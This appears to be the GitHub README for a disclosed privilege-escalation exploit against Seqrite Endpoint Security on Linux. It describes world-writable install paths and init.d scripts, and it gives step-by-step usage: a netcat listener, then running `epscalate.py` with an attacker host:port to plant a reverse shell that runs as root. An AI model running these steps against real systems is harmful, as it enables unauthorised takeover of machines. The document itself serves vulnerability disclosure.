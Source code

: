 # EPScalate
An elevation of privilege vulnerability in QuickHeal's Seqrite Enterprise Endpoint Security Solution (EPS).

https://user-images.githubusercontent.com/39941993/230790056-87157751-b96c-49a6-81df-bf3126acfbd6.mp4

### Vendor and Product Details
- __Vendor__: Quick Heal Technologies Limited
- __Product__: Seqrite Endpoint Security (EPS)
- __Product Homepage__: https://www.seqrite.com/endpoint-security/seqrite-endpoint-security
- __Affected Versions__: Affects all versions prior to v8.0.

### Vulnerability Details
Seqrite endpoint security with its default installation installs to `/usr/lib/Seqrite/` with very weak directory and file permissions granting a local user full read/write permission to the contents of the directory. In addition, the installation procedure installs its startup scripts to `/etc/init.d/` which are world writable. This enables any low-privilege user on the system to escalate privileges to root.

The exploit makes use of 2 different vulnerabilities introduced by the software to elevate privileges on the system. Firstly, the fact that the application uses scripts in `/etc/init.d/` to start its scan processes which can be written to by any user. Secondly, the application makes use shared objects to dynamically load position-independent code (PIC) during runtime. As a matter of fact, all of the executable shared object files are world writable. Lastly, the application binaries used for the daemon process are world writable which basically means any non-privileged user could overwrite the scanner binaries with a reverse shell binary to execute arbitrary code as `root`.

### Exploit Usage
The exploit is a simple Python file that aids in the exploitation of the vulnerability.

Steps:
1. On the attacker machine, start a listener using netcat (`nc -lvp <port>`) or metasploit (`multi/handler`).
2. Copy/download the `epscalate.py` and `shellcode.c` file onto the target system.
3. Run the python file with proper arguments (`python3 epscalate.py -H 192.168.0.103:9999 -I`).
4. Wait for the AV to reload / the system to reboot.
5. The reverse connection to your listener can confirm code execution as root.

Exploit help:
```s
$ python epscalate.py -h

    EPSCALATE - PoC for privesc in Seqrite EPS
                ~ 0xInfection

usage: epscalate.py -H <host>:<port> <technique_flag>

options:
  -h, --help            show this help message and exit
  -H HOSTPORT, --hostport HOSTPORT
                        The IP and port of the listening attacker machine in format of <ip>:<port>
  -B, --daemon-binaries
                        Overwrite the main daemon binaries to escalate privileges.
  -I, --initd-scripts   Posion /etc/init.d/ bash startup scripts with a reverse shell to escalate privileges.
```

### Support
The exploit has been tested on all Debian and Ubuntu-based variant operating systems.

### License & Credits
The exploit code has been published under the Apache 2.0 License.
The vulnerability has been disclosed to the vendor and has been remediated at the time of publishing the vulnerability.

Vulnerability and exploit credits: Pinaki Mondal ([0xInfection](https://twitter.com/0xinfection)).
